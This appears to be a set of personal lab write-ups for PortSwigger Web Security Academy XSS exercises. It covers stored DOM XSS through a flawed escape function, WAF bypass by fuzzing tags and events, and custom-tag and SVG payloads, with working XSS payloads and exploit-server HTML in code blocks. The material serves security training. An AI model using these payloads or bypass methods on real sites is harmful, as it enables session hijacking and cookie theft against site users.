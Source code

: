 # Stored DOM XSS
1. View Post
2. View JavaScript sources and read `loadCommentsWithVulnerableEscape.js`
```javascript
    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```
- This `html.replace` function is vulnerable because `replace()` will only perform the operation once; From MDN Docs - "A string pattern will only be replaced once. To perform a global search and replace, use a regular expression with the `g` flag, or use [`replaceAll()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replaceAll) instead."
3. With this knowledge submit a comment like so
```
<><img src=x onerror=alert(document.domain)>
```
# Reflected XSS into HTML context with most tags and attributes blocked
1. Search function
2. `<script>` tag inserted triggers WAF
3. Go to XSS Cheat Sheet and copy all tags to clipboard
4. Send request to intruder and fuzz with all tags
5. Identify `<body>` is an allowed tag
6. Use same method to fuzz allowed events and notice that some are allowed, namely `onresize`
7. Go to exploit server and create an `iframe` which will resize to trigger the event
```html
<iframe src='https://0a3c00a903b2379f800b030000140038.web-security-academy.net/?search=<body onresize=print(document.domain)></body>'onload=this.style.width='100px'>
```
- If the payload does not fire properly, inspect the HTML and search for `onresize` and see how it is presented in the HTML
# Reflected XSS into HTML context with all tags blocked except custom ones
1. Search function
2. All tags are blocked except custom ones
3. Use the cheat sheet to find an auto firing exploit
4. Exploit server
5. Create malicious payload
```html
<html>
<head></head>
<body>
<script>
document.location = "https://0a93003604989d908068032300aa00fe.web-security-academy.net/?search=<xss onfocus=alert(document.cookie) autofocus tabindex=1>"
</script>
</body>
</html>
```
# Reflected XSS with some SVG markup allowed
1. Search function
2. SVG tags are allowed
3. Read through cheat sheet and see there are multiple SVG markup tags
4. Test each one and get a successful payload with `animatetransform`
```
GET /?search=xsstesting<svg><animatetransform onbegin=alert(1) attributeName=transform>
```
# Reflected XSS in canonical link tag